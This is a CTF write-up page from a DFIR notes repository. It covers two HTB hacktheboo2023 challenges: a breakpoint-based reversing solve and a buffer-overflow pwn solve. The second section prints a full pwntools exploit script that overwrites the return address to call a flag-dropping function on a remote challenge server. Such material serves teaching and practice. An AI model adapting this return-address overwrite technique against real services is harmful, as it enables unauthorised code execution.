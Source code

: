 These are thier own seperate categories. But there is overlap in DFIR and knowing how to do these can develop skills which will help in DFIR. 


# Break points

HTB hacktheboo2023 CTF had a rev challenge `ghost in the box`. It was a very easy challenge with essentially the only thing needed to do was set a breakpoint.

First running the program we see we get a currpt output.

![image](https://github.com/dbissell6/DFIR/assets/50979196/172cf7e6-a7b8-40fb-ba21-9e48544d025f)


Disassemble main notice +143 get flag and +155 ghost

![image](https://github.com/dbissell6/DFIR/assets/50979196/a1bfcbea-cc61-4264-b4ce-eaea65fec747)

First intuition is the ghost function is overwriting and scrambing the getflag. to check this we can set a breakpoint inbetween the getflag and ghost functions


![image](https://github.com/dbissell6/DFIR/assets/50979196/33413e74-9b2c-435d-b1e5-a47d542b3247)

can see the flag intact in the registers. 

![image](https://github.com/dbissell6/DFIR/assets/50979196/eea8c14b-d4d8-491e-8c68-ce6b24d86d0c)


# Buffer overflow + pwntools

HTB hacktheboo2023 pwn challenge called lemonade stand. Notice a buffer overflow allowing to take control of rip and a function called grapes that will drop the flag. Execute with pwntools.


![image](https://github.com/dbissell6/DFIR/assets/50979196/7504632e-f5ae-4495-b2d8-a36d00d180d7)


Grapes

![image](https://github.com/dbissell6/DFIR/assets/50979196/7229d0a6-1b8e-4a82-89e8-2375542bff07)


Complete pwntools script
```

from pwn import *
import warnings
import os

# Set up pwntools for the correct architecture
context.arch = 'amd64'
context.log_level = 'critical'

# This will allow pwntools to access locally to find location of function
fname = './lemonade_stand_v1'
e = ELF(fname)

# Address of the 'grapes_mem' function
# Notice retn will == p64(e.sym.grapes)
grapes_mem = '0x00000000004008cf'
print(grapes_mem, p64(e.sym.grapes))


# Connect to the server
target_host = '94.237.59.206'  # replace with the target IP address
target_port = 38999       # replace with the target port number
r = remote(target_host, target_port)

# Payload crafting
offset = 94
padding = b'A' * offset
rbp = b'B' * 8
retn = '\xcf\x08\x40\x00\x00\x00\x00\x00'

# Interacting with the program
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'1')
r.recvuntil(b'>> ')
r.sendline(b'1')


# Finalizing the payload
# p1 uses ret and the manual, p2 uses 
payload = flat([padding, rbp, retn])
payload2 = flat([padding, rbp, p64(e.sym.grapes)])

# Sending the payload
# Uncomment whichever choice

#r.sendline(payload)
r.sendline(payload2)

# Keep the connection alive to see any potential outputs or to interact further
r.interactive()



```

Running Final pwntools output

![image](https://github.com/dbissell6/DFIR/assets/50979196/52eb2bf7-8fc4-46c7-b30b-37c89862fd0d)
